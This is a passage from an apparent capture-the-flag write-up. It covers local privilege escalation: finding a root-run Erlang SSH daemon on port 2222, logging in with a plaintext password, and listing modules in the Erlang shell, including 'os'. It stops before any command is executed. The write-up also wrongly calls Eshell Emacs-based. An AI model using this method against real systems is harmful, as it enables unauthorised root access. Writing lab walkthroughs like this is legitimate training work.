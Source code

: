 In this is the output of `ps aux`, we can see this script was executed by `root` user, so if we able to gain command execution, we have root command execution:
```bash
ben@soulmate:~$ ps aux | grep ssh
<REDACTED>

root      125264 17.0  1.6 2252168 67184 ?       Ssl  16:59   0:00 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
```

So, there is probably some ssh daemon listening on port `2222`. we can verify this using `nc`:
```bash
ben@soulmate:~$ nc 127.0.0.1 2222
SSH-2.0-Erlang/5.2.9
```

Let's connect using our password `HouseH0ldings998`:
```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> 
```

as we can see, we got `Eshell`, which is shell based on `Emacs` language, a script language like python.

We start with `help().`, to show available commands:
```bash
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> help().

** shell internal commands **

<REDACTED>

m()        -- which modules are loaded
m(Mod)     -- information about module <Mod>

q()        -- quit - shorthand for init:stop()
<REDACTED>

```

Then, we want to see which modules we can load, i think it's like `import` in python.
```bash
(ssh_runner@soulmate)2> m().
Module                File

<REDACTED>

os                    /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam

<REDACTED>

ok
```
